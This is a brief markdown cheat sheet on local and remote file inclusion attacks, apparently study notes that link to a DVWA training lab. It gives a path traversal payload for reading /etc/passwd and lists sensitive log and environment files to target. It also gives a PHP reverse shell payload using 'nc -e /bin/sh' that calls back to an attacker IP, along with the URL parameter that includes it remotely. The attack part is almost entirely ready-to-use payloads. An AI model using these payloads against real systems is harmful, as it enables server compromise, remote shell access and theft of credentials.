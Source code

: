 # File Inclusion

## Local
- Exploit
  - Modify ```?page=include.php``` to ```?page=../../../../../etc/passwd```
- Intersting files
  - /proc/self/environ
  - /var/log/auth.log
  - /var/log/apache2/access.log  
- Example
  - [DVWA](../BuggyApp/DVWA/file-inclusion.md)  

## Remote
- Exploit
  - Save the code as *"reverse.txt"*, if extnsion be *"php"*, it will run on kali machine. ? is for run the code in victim machine
```php
<?php
passthru('nc -e /bin/sh 10.20.14.203 8080');
?>
```
   - Modify ```?page=include.php``` to ```?page=http://10.20.14.203/reverse.txt?```

